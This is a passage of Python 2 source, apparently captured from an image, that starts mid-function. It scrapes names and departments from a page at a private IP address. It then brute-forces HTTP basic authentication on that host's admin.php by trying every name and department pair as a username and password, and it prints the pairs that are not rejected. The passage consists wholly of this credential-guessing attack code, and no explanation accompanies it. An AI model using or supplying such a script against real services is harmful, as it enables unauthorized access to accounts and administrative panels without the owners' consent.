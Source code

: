 ```python
    return output

def findDepts(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='department')
    output = []
    for name in names:
        output.append(name.text)
    return output

def getAuthorized(url, username, password):
    r = requests.get(url, auth=(username, password))
    if str(r.status_code) != '401':
        print "\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n"

page = downloadPage("http://172.16.120.120")

names = findNames(page)
uniqNames = sorted(set(names))

depts = findDepts(page)
uniqDepts = sorted(set(depts))

print "[+] Working... "
for name in uniqNames:
    for dept in uniqDepts:
        getAuthorized("http://172.16.120.120/admin.php", name, dept)
```

